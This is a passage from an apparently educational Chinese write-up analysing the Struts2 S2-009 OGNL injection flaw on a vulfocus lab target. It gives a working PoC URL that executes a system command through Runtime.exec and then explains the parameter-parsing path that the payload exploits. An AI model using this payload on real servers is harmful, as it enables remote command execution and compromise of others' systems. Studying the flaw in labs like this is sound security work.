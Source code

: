 构造可简单执行命令的PoC如下：
```
http://vulfocus.me:31519/S2-009/ajax/example5?
name=(%23_memberAccess.allowStaticMethodAccess=true,%23context['xwork.MethodAccessor.denyMethodExecution']=false,@java.lang.Runtime@getRuntime().exec('touch%20/tmp/success2'))
&z[(name)(fuck)]
```

如下图，在拦截器`ParametersInterceptor`处理完第一个请求参数`name`后，`Example5Action`的成员属性`name`被成功赋值，它的值就是我们提交的包含恶意Java代码的OGNL表达式。

<img src="pic/struts2_s2-009_3.png">

在解析第二个参数`z[(name)(fuck)]`的过程中，会解析为两个`ASTProperty`类型的节点，如下图：

<img src="pic/struts2_s2-009_4.png">
